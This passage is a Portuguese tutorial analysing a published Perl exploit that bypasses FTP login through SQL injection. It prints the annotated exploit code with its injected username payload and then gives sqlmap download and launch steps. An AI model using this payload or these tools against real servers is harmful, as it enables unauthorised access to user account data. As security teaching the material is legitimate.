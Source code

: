 
Em uma simples análise do exploit utilizado no vídeo:

http://downloads.securityfocus.com/vulnerabilities/exploits/33722.pl

É possível perceber a simplicidade da exploração da falha:

```
$host = $ARGV[0]; # Variável $host recebe o endereço IP do servidor á ser atacado

# Variável $user é inicializada com pedaço de código SQL que deverá 'confundir'
# processo de autenticação no lado do servidor:
$user = "USER %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; --"; 
$pass = '1';

# Variável $ftp armazena descritor de conexão estabelecida com servidor FTP
$ftp = Net::FTP->new("$host", Debug => 0) or die "[!] Cannot connect to $host";

# O login malicioso é realizado, perceba que nome de usuário é simplesmente
# o conteúdo de $user
$ftp->login("$user","$pass") or die "\n\n[!] Couldn't ByPass The authentication ! ", $ftp->message;
print "\n[*] Connected To $host";
```

Baixando e executando o SQLMap:

Link para Download: https://codeload.github.com/sqlmapproject/sqlmap/legacy.tar.gz/master

Você fará o download de um arquivo com esse nome: sqlmapproject-sqlmap-0.9-4059-ge35c7fb.tar.gz


Descompactando:

```
$ tar -zxvf sqlmapproject-sqlmap-0.9-4059-ge35c7fb.tar.gz
```

Entrando no diretório gerado após a descompactação:

```
cd sqlmapproject-sqlmap-e35c7fb
```

Executando o SQLmap:

```
python sqlmap.py
```

Ele vai te retorna isso:

```
Usage: python sqlmap.py [options]
```

Vendo o help dele:

```
$ python sqlmap.py -h
```

Para verificar se um site está vulnerável, você poderá usar o parâmetro -u (de URL):
